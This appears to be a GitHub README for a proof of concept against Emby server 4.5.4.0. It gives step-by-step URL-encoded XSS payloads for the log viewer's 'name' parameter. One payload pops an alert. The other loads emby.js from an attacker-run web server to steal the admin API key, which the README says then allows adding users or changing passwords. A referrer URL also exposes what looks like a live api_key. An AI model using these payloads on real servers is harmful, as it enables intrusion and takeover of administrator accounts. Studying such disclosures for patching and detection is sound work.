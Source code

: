 # emby-4.5.4.0-xss-poc

1.Browse emby server url :**"http://192.168.201.3:8096/web/index.html#!/log?name=embyserver.txt"** which can show you the log files.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**, urldecoded as "\<img src=x onerror=alert(1)\>"

3.Url will be **"http://192.168.201.3:8096/web/index.html#!/log?name=%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**

3.Browse the edited url and webpage will show an alert dialog (U may have to refresh 2-3 times).

# emby-4.5.4.0-xss-steal-admin-api-exp

1.Put emby.js in directory and run "python -m SimpleHTTPServer" to run a web server.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%29%2e%73%72%63%3d%27%2f%2f%31%32%37%2e%30%2e%30%2e%31%2f%65%6d%62%79%2e%6a%73%27%3e"**

3.Browse the edited url and page will load emby.js from SimpleHTTPServer and send the api value to SimpleHTTPServer.

![image](https://raw.githubusercontent.com/EstamelGG/emby-4.5.4.0-xss-exp/main/WX20210128-174426%402x.png)

4.You can use admin api to add user or change password or any thing need privilege. 

Referrer: http://swagger.emby.media/?url=http://192.168.201.3:8096/emby/openapi&api_key=902c563ed3184ff4b1492aca4a5644de#/
